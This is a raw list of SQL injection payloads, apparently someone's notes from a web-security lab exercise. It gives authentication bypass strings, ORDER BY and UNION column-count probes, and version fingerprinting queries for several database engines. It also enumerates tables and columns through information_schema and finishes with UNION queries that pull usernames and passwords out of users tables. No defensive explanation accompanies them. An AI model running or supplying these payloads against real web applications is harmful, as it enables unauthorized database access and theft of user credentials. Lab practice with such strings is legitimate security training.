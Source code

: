 test' OR 1=1 --
administrator'--
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,'searchstring',NULL--
'+UNION+SELECT+NULL,'administrator'+||+'~'+||+password+FROM+users--
' UNION SELECT username,password FROM users --
' UNION SELECT BANNER, NULL FROM v$version--
' UNION SELECT password,username || '~' || password FROM users--
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
'UNION SELECT @@version--
'UNION SELECT * FROM v$version--
'UNION SELECT version()--
'+UNION+SELECT+@@version,+NULL#
%27+UNION+SELECT+@@version,+NULL%23

'SELECT * FROM information_schema.tables--
'SELECT NULL,NULL FROM information_schema.tables--
'SELECT * FROM information_schema.columns WHERE table_name = 'Users'--

'UNION SELECT NULL,NULL FROM information_schema.tables--

'+UNION+SELECT+username,password+FROM+users--

'UNION+SELECT+@@version--
'UNION+SELECT+*+FROM+v$version--
'UNION+SELECT+version()--

'UNION SELECT TABLE_NAME,'a' FROM information_schema.tables--
'UNION SELECT TABLE_NAME,COLUMNS FROM information_schema.tables--
'UNION SELECT TABLE_NAME FROM information_schema.columns WHERE table_name = 'users_neught'--
'UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns--
'UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_neught'--

'UNION SELECT username_hkqvsd,password_arswcp FROM users_neught--

'UNION SELECT TABLE_NAME,'a' FROM information_schema.tables--
